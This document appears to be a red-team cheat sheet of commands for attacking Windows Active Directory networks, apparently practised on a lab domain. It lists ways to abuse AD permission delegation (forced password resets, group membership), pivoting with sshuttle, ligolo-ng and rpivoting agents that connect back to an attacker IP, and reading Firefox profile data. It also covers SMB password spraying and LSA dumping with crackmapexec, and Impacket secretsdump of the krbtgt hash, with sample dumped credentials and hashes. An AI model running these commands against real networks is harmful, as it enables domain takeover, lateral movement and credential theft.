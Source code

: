 #AD Exploit Permission Delegation
+ ForceChangePassword: We have the ability to set the user's current password without knowing their current password.
+ AddMembers: We have the ability to add users (including our own account), groups or computers to the target group.
+ GenericAll: We have complete control over the object, including the ability to change the user's password, register an SPN or add an AD object to the target group.
+ GenericWrite: We can update any non-protected parameters of our target object. This could allow us to, for example, update the scriptPath parameter, which would cause a script to execute the next time the user logs on.
+ WriteOwner: We have the ability to update the owner of the target object. We could make ourselves the owner, allowing us to gain additional permissions over the object.
+ WriteDACL: We have the ability to write new ACEs to the target object's DACL. We could, for example, write an ACE that grants our account full control over the target object.
+ AllExtendedRights: We have the ability to perform any action associated with extended AD rights against the target object. This includes, for example, the ability to force change a user's password.

	PS C:\>Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"
	PS C:\>Get-ADGroupMember -Identity "IT Support" -> you will see your account added to gropu IT Support
	****** ForceChangePassword
	PS C:\>Get-ADGroupMember -Identity "Tier 2 Admins" -> find user interest to resent their password
 	
	PS C:\>$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
	PS C:\>Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password

	***** Note: If you get an Access Denied error, your permissions have not yet propagated through the domain. This can take up to 10 minutes. The best approach is to terminate your SSH or RDP session, take a quick break, and then reauthenticate and try again. You could also run gpupdate /force and then disconnect and reconnect, which in certain cases will cause the synchronisation to happen faster.
    
# Pivoting

Sshuttle Command:

	sshuttle -r user@remote_host:2222 192.168.98.0/24 
	sshuttle -r user@remote_host 192.168.98.0/24 

	192.168.98.0/24 -> get from check ifconfig when see 2 adapter
	
	after shuttle
	
	nmap -sC -sV 192.168.98.5 -> IP for Pivoting

ligolo-ng

	#Attacker Machine, download proxy & agent :
	
	#Proxy
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

	#Agent
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

	Setup the ligolo-ng proxy in the attacker machine & ligolo-ng in the victim machine.

	# Attacker Machine
	sudo ip tuntap add user kali mode tun ligolo

	#Delete the 192.168.98.0/24 IP Range from the tun0 interface :
	sudo ip route del 192.168.98.0/24 dev tun0
	#Up the ligolo interface :
	sudo ip link set ligolo up
	#Add 192.168.98.0/24 IP range to the ligolo interface :
	sudo ip route add 192.168.98.0/24 dev ligolo

	Confirm the route on your attacker machine.

	ip route

	Start the proxy on the attacker server
	./proxy -selfcert -laddr 0.0.0.0:443

	Transfer the agent on the victim machine & start the connection
	#Replace this with your attacker IP address.
	./agent -connect 10.10.200.X:443 -ignore-cert

	session
	list_tunnels
	start

SSH Pivoting

	ssh -D 8088 privilege@192.168.80.10
	netstat -ano | grep 8088

rpivoting

	+ attacker set up
 		-check python2 availble 
		python2 server.py --server-port 9980 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9050
	 	ifconfig -> copy this ip to victim
   
  	+ victim set up
  	
		copy rpivoting to victim client 
		python2 client.py --server-ip 10.10.200.124 --server-port 9980


# Firefox Find Information

	ls -la .mozilla/
	cd .mozilla/firefox/
	# The filename may vary on your infrastructure, identify & use accordingly
	cd b2rri1qd.default-release
	
	sqlite3 places.sqlite
	.tables
	select * from moz_bookmarks;

# SMB

SMB Bruteforce IP List with one username and password

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" -u "john" -p "User1@#$%6" ; done

SMB check information 

	crackmapexec smb 192.168.98.2

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" sleep 10; done

SMB LSA 

	crackmapexec smb 192.168.98.30 -u john -p User1@#$%6 --lsa

	Output: 
		SMB         192.168.98.30   445    MGMT             			corpmngr@child.warfare.corp:User4&*&*

# Impacket tools

**Install Impacket In kali**

	sudo apt install python3-impacket

**Dumping user Krbtgt**

	impacket-secretsdump -debug child/corpmngr:"User4&*&*"@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'

	Result:
	[+] Decrypting hash for user: CN=krbtgt,CN=Users,DC=child,DC=warfare,DC=corp
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900:::
	krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
	krbtgt:aes128-cts-hmac-sha1-96:806d6ea798a9626d3ad00516dd6968b5
	krbtgt:des-cbc-md5:ba0b49b6b6455885

# Remote login with exec
	impacket-smbexec corpmngr:"User4&*&*"@192.168.98.120

# RedTeam-CheckSheet
